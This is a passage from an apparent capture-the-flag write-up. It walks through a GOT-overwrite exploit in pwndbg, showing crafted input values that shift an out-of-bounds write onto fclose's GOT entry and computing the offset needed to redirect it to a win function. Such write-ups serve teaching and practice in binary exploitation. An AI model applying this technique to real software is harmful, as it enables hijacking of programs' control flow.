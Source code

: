 You can see it overwrite the GOT of `fread` (0x404028)

```bash
pwndbg> x 0x404028
0x404028 <fread@got.plt>:       0x00401050
```

We can choose other good address to overwrite like `fclose`, because it call at the end of main function
```c
int main(int argc, char **argv) {
  ...
  ...
  printf("]}}");

  fclose(fp);
  return 0;
}
```
```bash
pwndbg> got

GOT protection: Partial RELRO | GOT functions: 9

[0x404018] putchar@GLIBC_2.2.5 -> 0x401030 ◂— endbr64
[0x404020] __isoc99_fscanf@GLIBC_2.7 -> 0x7ffff7ce3320 (__isoc99_fscanf) ◂— endbr64
[0x404028] fread@GLIBC_2.2.5 -> 0x401050 ◂— endbr64
[0x404030] fclose@GLIBC_2.2.5 -> 0x401060 ◂— endbr64
[0x404038] __stack_chk_fail@GLIBC_2.4 -> 0x401070 ◂— endbr64
[0x404040] printf@GLIBC_2.2.5 -> 0x401080 ◂— endbr64
[0x404048] fopen@GLIBC_2.2.5 -> 0x7ffff7d02a90 (fopen64) ◂— endbr64
[0x404050] exit@GLIBC_2.2.5 -> 0x4010a0 ◂— endbr64
[0x404058] ceil@GLIBC_2.2.5 -> 0x7ffff7ef1c80 (__ceil_sse41) ◂— endbr64
```
Can see `fclose` just below `fread`, let's try change our height from 10 to 20:
```
NaN,20
```
Run again it overwrite `0x40402c` which is 4 address above
```bash
 ► 0x401448 <read_data+346>    mov    dword ptr [rdx + rax], esi    <0x40402c>
```
Change to 30 and run it again, can see it overwrite the `fclose` GOT address!
```bash
 ► 0x401448 <read_data+346>    mov    dword ptr [rdx + rax], esi    <0x404030>
```

### How much to overwrite
You can see the `fclose` GOT value (PLT address) is `0x401060` and `win` locate at `0x401268` 

```bash
pwndbg> x 0x404030
0x404030 <fclose@got.plt>:      0x00401060
pwndbg> x win
0x401268 <win>: 0xfa1e0ff3
pwndbg> print 0x401268-0x401060
$2 = 520
```
Therefore, we just need to add `520` times to the `fclose` GOT address (0x401268-0x401060=520)
